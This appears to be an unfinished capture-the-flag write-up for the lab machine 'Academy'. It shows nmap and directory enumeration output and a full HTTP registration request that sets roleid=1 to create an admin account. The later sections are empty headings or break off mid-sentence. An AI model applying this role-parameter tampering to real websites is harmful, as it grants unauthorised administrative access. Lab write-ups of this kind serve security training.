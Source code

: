 # Academy
```
Difficulty: Easy
Operating System: Linux
Hints: True
```
## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
As we can se we have only port 22 and 80 opened, so without further doing let's dig into port 80.  
Before openinig port 80 we can see in nmap that the site is performing a redirection to ```Did not follow redirect to http://academy.htb/``` so let's set up this host in our /etc/hosts file and let's start enumerating webserver.  
First thing, hitting the website, we can see an 'acedemy' page. The page shows an image and nothing more, so, let's start enumerating the webserver looking for files and directories:  
```
/images               (Status: 301) [Size: 311] [--> http://academy.htb/images/]
/home.php             (Status: 302) [Size: 55034] [--> login.php]
/admin.php            (Status: 200) [Size: 2633]
/login.php            (Status: 200) [Size: 2627]
/.                    (Status: 200) [Size: 2117]
/index.php            (Status: 200) [Size: 2117]
/register.php         (Status: 200) [Size: 3003]
/config.php           (Status: 200) [Size: 0]
```
as we can see we discovered various links.  
Now we can try various scan, but at least, if we try to register a new account with the roleid (found in the registration request set to 1) we can register an admin account.  
```
POST /register.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://academy.htb
Connection: close
Referer: http://academy.htb/register.php
Cookie: PHPSESSID=bv9043rgksnjungmplpk3ktqtn
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

uid=b0d&password=Password&confirm=Password&roleid=1
```
After we register the account we can login with the given credentials to admin.php, here we can find the below: 
![](Pasted%20image%2020220518104752.png)

## Foothold (optional)

## User
### Method 1 - Technique 1
### Method 2 - Technique 2

## Root
Once we log in, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, we can notice

